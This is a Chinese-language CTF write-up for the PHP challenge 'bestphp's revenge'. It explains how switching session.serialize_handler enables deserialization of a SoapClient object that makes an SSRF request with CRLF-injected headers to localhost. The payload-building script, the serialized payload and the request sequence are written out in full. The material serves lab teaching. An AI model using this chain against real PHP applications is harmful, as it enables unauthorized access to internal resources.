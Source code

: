 # bestphp's revenge

## bestphp's revenge

## 考点

* SoapClient打SSRF
* PHP的session.serialize\_handler改变导致的反序列化

## wp

给了index.php源码，目录扫描可以扫到flag.php，用dirsearch在BUU最好低线程加延时，或者用`ctf-wscan`

```
dirsearch -u "a0d63d20-83ba-4cf7-b699-bdf388e5daf0.node4.buuoj.cn:81" -s 0.1 -t 1 -w ctf.txt -x 404
```

```php
 <?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> 
```

```php
//only localhost can get flag!
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
//only localhost can get flag!
```

那这题就是SSRF了，问题是如何找到入口。回看index.php，和session相关的，想到的有越权、反序列化，这里只能考虑反序列化，反序列化有SoapClient可以触发SSRF，然后是找触发反序列化的点。

这题一直在强调session，并且在`call_user_func($_GET['f'], $_POST);`这里可以进行任意变量的修改。而session序列化有三种方式

测试代码

```php
<?php
ini_set('session.serialize_handler','php_binary');
session_start(); 
$_SESSION["name"] = "123"; 
```

* php\_binary：`\x04names:3:"123";`
* php： `name|s:3:"123";`
* php\_serialize(php>5.5.4)：`a:1:{s:4:"name";s:3:"123";}`

如果session一开始以php\_serialize方式存储，然后把handler变成php，就会按照php方式反序列化。

```php
ini_set('session.serialize_handler','php_serialize');
session_start(); 
$_SESSION["name"] = $_GET["name"]; 
```

传入`|s:3:"234`，那么存储的session就是`a:1:{s:4:"name";s:3:"|s:3:"234";}`，再经过php方式的反序列化，就能得到输出`array(1) { ["a:1:{s:4:"name";s:3:""]=> string(3) "234" }` ，如此就可以触发session的反序列化。最后总结一下，先把序列化内容写入，然后再访问一次触发反序列化，共访问2次。

```php
ini_set('session.serialize_handler','php');
session_start(); 
var_dump($_SESSION);
```

对于本题而言，session内容可控，并且在`session_start();`之前可以执行函数或者定义变量，那就可以进行session反序列化，但是这里肯定执行不了`ini_set('session.serialize_handler','php_serialize');`，因为它要两个参数，在`session_start()`中也可以设置参数，不过这个参数要是个数组，而题目刚好符合条件`call_user_func($_GET['f'], $_POST);`，`f`为`session_start`，`$_POST`是个数组

![](../../.gitbook/assets/ucPr3FddY8alPXO7yz63yef80HIk7jRFq5rvgh\_0wHI.png)

目前得到的结果：GET `f=session_start`，POST `serialize_handler=php`

后面GET name肯定是要SoapClient的反序列化，但是它的反序列化要从`__call`开始，也即调用一个无法调用的函数

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'asdfghjkl';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: admin=1'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "peri0d"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;

$x = unserialize(urldecode($aaa));
$x->no_func();
```

然后要让SoapClient调用一个无法调用的函数，这就要用最后两行了。reset() 函数输出数组中的当前元素和下一个元素的值，然后把数组的内部指针重置到数组中的第一个元素。

```php
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

这就不得不提`call_user_func`

```php
call_user_func(callable $callback, mixed $parameter = ?, mixed $... = ?): mixed
```

它有两个用法

1. 执行函数，把第一个参数作为回调函数调用，其余参数是回调函数的参数
2. 执行类中的函数，传入数组，数组第一个元素是对象名，第二个元素是函数名`call_user_func(array($name, $method));`

在这里就可以循环调用`call_user_func`，`call_user_func("call_user_func", array($_SESSION,"welcome_to_the_lctf2018"));`这样反序列化之后的`$_SESSION`就可以触发`__call()`了

先访问一次把反序列化内容写入

GET `f=session_start&name=payload`，POST `serialize_handler=php_serialize`

```
|O:10:"SoapClient":5:{s:3:"uri";s:6:"period";s:8:"location";s:25:"http://127.0.0.1/flag.php";s:15:"_stream_context";i:0;s:11:"_user_agent";s:154:"wupco%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aX-Forwarded-For: 127.0.0.1%0d%0aCookie: PHPSESSID=fpc54ui1kv6dkh3mso2gfip1gm%0d%0aContent-Length: 3%0d%0a%0d%0aaaa";s:13:"_soap_version";i:1;}
```

然后再用extract进行变量覆盖，触发SoapClient反序列化

GET `f=extract`，POST `b=call_user_func`

在BUU上最好用新的session，要不会一直卡在加载那里

![](../../.gitbook/assets/w7Ut00M2IKN4M9iU1xNJwwC1FllLxzfd\_9l7wjRz3qs.png)

## 小结

1. extract能对session进行变量覆盖吗

```php
<?php
extract($_POST);
session_start(); 
$_SESSION["name"] = $_GET["name"]; 
var_dump($_SESSION);
```

如果`session_start`在`extract`之前就可以，否则不行

1. 类似的题目有\[jarvisoj] PHPINFO
